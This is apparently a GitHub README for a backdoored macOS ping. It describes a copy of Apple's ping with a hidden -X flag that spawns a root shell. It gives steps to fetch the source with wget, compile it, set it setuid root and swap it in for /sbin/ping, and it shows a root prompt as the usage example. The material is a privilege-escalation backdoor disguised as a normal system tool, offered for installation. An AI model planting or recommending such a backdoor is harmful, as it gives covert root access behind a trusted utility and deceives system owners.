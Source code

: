 OS X Backdoored ping
====================

This is just the normal OS X `ping`, but if you run it with the flag `-X`, it drops a root shell.  This relies on the `suid` bit being set, it's not an exploit and it won't help you root a server (which you shouldn't be doing anyway 😠).

I didn't write the `ping` utility, this is just the normal OS X `ping`, the source code of which can be found [here](http://www.opensource.apple.com/source/network_cmds/network_cmds-329.2/ping.tproj/ping.c?txt). All I did was add the `-X` flag and the function `r00t()`.

This program still works like the normal `ping`. It just has a little secret 😉

# Compilation & Installation

1. `wget https://raw.githubusercontent.com/raincoats/osx-ping-backdoor/master/ping.c`
1. `gcc ping.c -o ping`
2. (as root) `chown root:wheel ./ping; chmod 4755 ./ping`
3. Optionally, `mv /sbin/ping{,-backup} && mv ./ping /sbin`

# Usage

    $ ./ping -X
       .----------------.
       |_I_I_I_I_I_I_I_I]___
       |  _    r00t! : ; _  )
      ='-(_)----------=-(_)-'
    sh-3.2# whoami
    root
    sh-3.2#

# Why did you even bother

This is me attempting to learn a little C. Even though I didn't do much, I'm so proud that it compiles. So if you don't like it buzz off 🐝🐝🐝🐝
